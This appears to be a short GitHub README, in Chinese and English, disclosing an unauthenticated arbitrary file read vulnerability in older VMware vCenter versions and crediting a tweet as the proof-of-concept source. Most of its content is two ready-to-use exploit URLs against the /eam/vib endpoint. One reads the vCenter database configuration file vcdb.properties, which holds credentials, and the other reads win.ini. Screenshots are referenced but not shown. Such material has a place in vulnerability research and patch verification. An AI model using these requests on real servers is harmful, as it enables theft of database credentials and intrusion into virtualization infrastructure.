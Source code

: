 # VMware vCenter 低版本存在未授权任意文件读取漏洞
# Arbitrary File Read vulnerability in VMware vCenter(Unauthenticated)

## Poc from:
https://twitter.com/ptswarm/status/1316016337550938122

e.g.

```
https://www.jas502n.com/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
https://www.jas502n.com/eam/vib?id=C:\Windows\win.ini
```

![](./vmware.png)
![](./vsphere-client.png)
![](./eam_vib.png)
![](./eam_vib_burp.png)
